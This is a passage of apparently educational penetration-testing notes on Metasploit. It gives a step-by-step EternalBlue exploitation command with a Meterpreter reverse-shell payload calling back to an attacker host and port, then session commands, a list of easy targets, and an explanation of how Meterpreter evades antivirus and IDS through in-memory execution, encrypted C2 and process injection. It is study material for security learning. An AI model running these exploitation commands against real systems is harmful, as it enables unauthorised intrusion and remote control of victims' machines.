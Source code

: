 5. **Run the module**
    `run`

6. **Switch to exploitation if vulnerability is found**
    ````bash
use exploit/windows/smb/ms17_010_eternalblue set PAYLOAD windows/x64/meterpreter/reverse_tcp set LHOST 10.10.44.70 set LPORT 4444 exploit
````

8. **Manage sessions**
````bash
sessions       # list sessions sessions -i 1  # interact with session 1 background     # send session to background
````

---

###  Service Search Examples

````bash
services -S http       # Search for HTTP services services -S netbios    # Identify SMB/NetBIOS
````

This helps prioritize low-hanging fruit like:

- `FTP` (Anonymous login)
    
- `HTTP` (Web app exploits)
    
- `SMB` (EternalBlue, etc.)
    
- `RDP` (Weak credentials or BlueKeep)



# Meterpreter 

## 🕵️‍♂️ Understanding Meterpreter

**Meterpreter** is a powerful Metasploit payload that provides an advanced shell on the target machine. It operates entirely in memory to maximize stealth, avoid disk-based detection, and support post-exploitation actions in real-time.

---

### 🧬 What Is Meterpreter?

- **Memory-Resident Agent:**  
    Meterpreter runs **entirely in RAM** — it never touches disk storage unless explicitly instructed. This allows it to bypass most antivirus solutions that focus on scanning files.
    
- **Encrypted C2 Channel:**  
    It uses **TLS-encrypted communication** between the attacker (you) and the compromised system, making it harder for intrusion detection/prevention systems (IDS/IPS) to inspect.
    
- **Stealthy Process Injection:**  
    Meterpreter often injects itself into legitimate processes on the target (like `spoolsv.exe`) instead of showing up as `meterpreter.exe`.
    